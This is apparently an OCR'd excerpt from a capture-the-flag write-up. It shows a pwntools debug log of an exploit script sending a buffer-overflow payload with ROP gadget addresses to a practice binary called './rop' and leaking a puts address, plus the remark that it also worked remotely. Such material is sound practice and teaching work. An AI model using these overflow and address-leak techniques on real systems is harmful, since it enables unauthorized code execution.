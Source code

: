 ```
  p.recvuntil("tools..")
[DEBUG] Received 0x36 bytes:
    b'Can you pop shell? I took away all the useful tools..\n'
[DEBUG] Sent 0x51 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  a9 04 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  b3 06 40 00  00 00 00 00  30 10 60 00  00 00 00 00  │··@·│····│0·`·│····│
    00000040  c0 04 40 00  00 00 00 00  21 06 40 00  00 00 00 00  │··@·│····│!·@·│····│
    00000050  0a                                                  │·│
    00000051
[DEBUG] Received 0x3d bytes:
    00000000  50 70 e4 91  dd 7f 0a 43  61 6e 20 79  6f 75 20 70  │Pp··│···C│an y│ou p│
    00000010  6f 70 20 73  68 65 6c 6c  3f 20 49 20  74 6f 6f 6b  │op s│hell│? I │took│
    00000020  20 61 77 61  79 20 61 6c  6c 20 74 68  65 20 75 73  │ awa│y al│l th│e us│
    00000030  65 66 75 6c  20 74 6f 6f  6c 73 2e 2e  0a           │eful│ too│ls..│·│
    0000003d
/home/kali/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] PpäÝ\x7f
[*] puts leak - 0xa7fdd91e47050
/home/kali/Desktop/6-Week/ROP-Pop-Pop/RPP_Pwn_3.py:118: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("tools..")
[DEBUG] Sent 0x51 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  a9 04 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  b3 06 40 00  00 00 00 00  30 10 60 00  00 00 00 00  │··@·│····│0·`·│····│
    00000040  c0 04 40 00  00 00 00 00  21 06 40 00  00 00 00 00  │··@·│····│!·@·│····│
    00000050  0a                                                  │·│
    00000051
[DEBUG] Received 0x3d bytes:
    00000000  50 70 e4 91  dd 7f 0a 43  61 6e 20 79  6f 75 20 70  │Pp··│···C│an y│ou p│
    00000010  6f 70 20 73  68 65 6c 6c  3f 20 49 20  74 6f 6f 6b  │op s│hell│? I │took│
    00000020  20 61 77 61  79 20 61 6c  6c 20 74 68  65 20 75 73  │ awa│y al│l th│e us│
    00000030  65 66 75 6c  20 74 6f 6f  6c 73 2e 2e  0a           │eful│ too│ls..│·│
    0000003d
[*] PpäÝ\x7f
[*] puts leak - 0xa7fdd91e47050
[DEBUG] Sent 0x51 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  a9 04 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  b3 06 40 00  00 00 00 00  30 10 60 00  00 00 00 00  │··@·│····│0·`·│····│
    00000040  c0 04 40 00  00 00 00 00  21 06 40 00  00 00 00 00  │··@·│····│!·@·│····│
    00000050  0a                                                  │·│
    00000051
[DEBUG] Received 0x3d bytes:
    00000000  50 70 e4 91  dd 7f 0a 43  61 6e 20 79  6f 75 20 70  │Pp··│···C│an y│ou p│
    00000010  6f 70 20 73  68 65 6c 6c  3f 20 49 20  74 6f 6f 6b  │op s│hell│? I │took│
    00000020  20 61 77 61  79 20 61 6c  6c 20 74 68  65 20 75 73  │ awa│y al│l th│e us│
    00000030  65 66 75 6c  20 74 6f 6f  6c 73 2e 2e  0a           │eful│ too│ls..│·│
    0000003d
[*] PpäÝ\x7f
[*] puts leak - 0xa7fdd91e47050
[*] Stopped process './rop' (pid 116179)
```
And this did also work remotely!
